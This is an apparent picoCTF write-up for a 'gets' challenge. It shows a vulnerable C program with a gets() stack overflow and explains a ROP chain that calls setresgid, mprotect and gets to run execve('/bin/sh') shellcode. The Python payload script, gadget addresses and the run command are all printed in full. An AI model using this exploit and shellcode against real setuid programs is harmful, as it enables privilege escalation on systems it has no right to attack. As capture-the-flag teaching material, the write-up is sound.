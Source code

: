 ## exploit

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

The vuln program is an  elf 32-bit file statically linked.
With checksec I discovered NX bit enabled with no canary so we can exploit this program in very different ways.

ASLR is enabled.

Obviusly I focused on vuln function.

I decided for this exploit to make a rop chain that:
* call setresgid with correct id in order to drop the right privileges to read the flag file
* call `mprotect` function in order to get bss section `RWX`
* call `gets` function and pass shellcode in the area passed as argument to mprotect function
* insert shellcode via stdin


from ropper I selected one gadget that simply performs 3 `pop` and one `ret`, in order to have the right stack layout for each functions above.

So here some addresses: 
```
	0806cc40 - setresgid
	0806f050 - pop pop pop ret gadget - used between the calls to clean stack layout.
	0806e0f0 - mprotect
	0804f120 - gets
```

To bypass NX bit I decided to makes the first 0x100 bytes of the bss rwx starting from `0x080e0000`.

The next gets function takes this address as arguments and via stdin passed the shellcode that simply execve `/bin/sh`.

Gets function will reads a line from stdin until `0x0a` is reached, so to pass the shellcode I simply insert a `0x0a` byte between rop string and shellcode.



Here `att.py` file:


```python

a="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"\x40\xcc\x06\x08"*2+"\x50\xf0\x06\x08"+"\xe8\x03\x00\x00"*3+"\xf0\xe0\x06\x08"+"\x50\xf0\x06\x08"+"\x00\xb0\x0e\x08" + "\x00\x01\x00\x00" + "\x07\x00\x00\x00"+"\x20\xf1\x04\x08"+"\x00\xb0\x0e\x08"*4+"\x0a"
a+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print(a)
```

```bash
$ (python /tmp/a/att.py;cat) |  ./gets
```

##### flag: picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cfdfc687}














